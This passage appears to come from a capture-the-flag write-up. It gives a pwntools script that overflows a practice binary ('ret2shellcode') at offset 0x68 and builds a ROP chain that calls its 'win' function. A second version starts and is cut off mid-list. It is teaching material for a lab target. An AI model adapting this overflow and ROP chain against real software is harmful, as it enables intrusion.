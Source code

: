 ## Final exploit
```py
#!/usr/bin/env python3
from pwn import *

def start():
	global p
	if args.REMOTE:
		p = remote('localhost', 1337)
	else:
		p = elf.process()

context.binary = elf = ELF('./ret2shellcode')
libc = elf.libc
start()

### Exploit Goes here ###
offset = 0x68
pop_rdi_ret = 0x40129b
pop_rsi_pop_r15_ret = 0x401299

# Offset upto RIP
payload = b'A'*offset

# set RDI=0xdeadbeef
payload += p64(pop_rdi_ret)
payload += p64(0xdeadbeef)

# set RSI=0xcafebabe R15=0
payload += p64(pop_rsi_pop_r15_ret)
payload += p64(0xcafebabe)
payload += p64(0)

# call win
payload += p64(elf.sym.win)

p.sendline(payload)

p.interactive()
p.close()
```
There is a better way to represent the rop chain to make it more understandable.
```py
#!/usr/bin/env python3
from pwn import *

def start():
	global p
	if args.REMOTE:
		p = remote('localhost', 1337)
	else:
		p = elf.process()

context.binary = elf = ELF('./ret2shellcode')
libc = elf.libc
start()

### Exploit Goes here ###
offset = 0x68
pop_rdi_ret = 0x40129b
pop_rsi_pop_r15_ret = 0x401299

rop_chain = [
```